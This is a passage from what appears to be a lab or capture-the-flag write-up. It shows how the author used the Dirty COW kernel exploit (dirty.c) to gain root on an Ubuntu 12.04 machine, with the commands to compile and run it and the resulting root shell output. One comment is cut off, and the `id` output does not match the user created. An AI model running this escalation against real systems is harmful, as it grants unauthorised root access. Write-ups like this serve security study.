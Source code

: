 # Dirty cow

Once we have a shell, we need to escalate our privileges.
To find exploits for our system we can run `lsb_release -a` to find what OS version we are currently running.
```
$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 12.04.5 LTS
Release:	12.04
Codename:	precise
```

A common exploit for older Linux systems is the Dirty Cow, nicely explained by Computerphile [here](https://www.youtube.com/watch?v=CQcgz43MEZg).
A list of these dirty copy-on-write exploits can be found [here](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

After trying many of them, we found [dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c) to be the simplest and most reliable.
We edited the exploit a bit so we can supply both the username and password on the command line.

The comments at the top of the file contain running instructions.
```shell
$ nano dirty.c
# Paste in the copied contents of scripts/dirty.c
# I change the username to 
$ gcc dirty.c -pthread -o dirty -lcrypt
$ ./dirty root42 pass
[...]
$ su root42

$ id
uid=0(peer) gid=0(root) groups=0(root)
```
